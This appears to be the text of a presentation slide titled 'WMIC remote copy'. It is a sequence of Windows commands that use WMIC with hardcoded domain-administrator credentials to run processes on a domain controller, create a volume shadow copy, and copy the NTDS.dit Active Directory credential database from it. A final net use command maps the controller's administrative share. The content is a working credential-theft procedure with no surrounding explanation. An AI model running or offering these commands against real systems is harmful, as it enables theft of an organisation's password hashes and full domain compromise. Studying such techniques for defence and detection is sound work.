

WMIC remote copy
wmic /node:DC1 /user:CONTOSO\administrator /password:domainadminsvc123 process call create "cmd /c vssadmin list shadows 2>&1 > C:\tempoutput.txt"
wmic /node:DC1 /user:CONTOSO\administrator /password:domainadminsvc123 process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > C:\temp\output.txt“
wmic /node:DC1 /user:CONTOSO\administrator /password:domainadminsvc123 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit 2>&1 > C:\temp\output.txt“
net use \\DC1 /user:CONTOSO\administrator domainadminsvc123
dir \\DC1\C$